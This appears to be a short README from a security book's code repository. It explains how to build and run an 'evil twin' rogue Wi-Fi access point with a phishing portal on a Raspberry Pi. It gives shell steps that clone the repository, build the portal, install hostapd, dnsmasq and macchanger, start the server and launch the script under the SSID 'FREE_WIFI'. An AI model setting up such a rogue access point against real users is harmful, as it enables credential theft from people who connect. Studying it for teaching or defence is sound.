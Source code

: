 # Evil Twin

On a Raspberry Pi with Rust installed:

First, build the phishing portal:
```shell
$ cargo install wasm-pack
$ git clone https://github.com/skerkour/black-hat-rust.git && cd black-hat-rust/ch_09/evil_twin
$ make -C ../phishing/ build && cp -r ../phishing/dist/* .

```

Then:
```shell
$ sudo apt install -y macchanger hostapd dnsmasq sqlite3 libssl-dev
$ sudo ./server -p 80 &
$ sudo ./evil_twin.sh
```


Then visit the `FREE_WIFI` wifi network.

You can update the SSID (access point's name) in `hostapd.conf`.

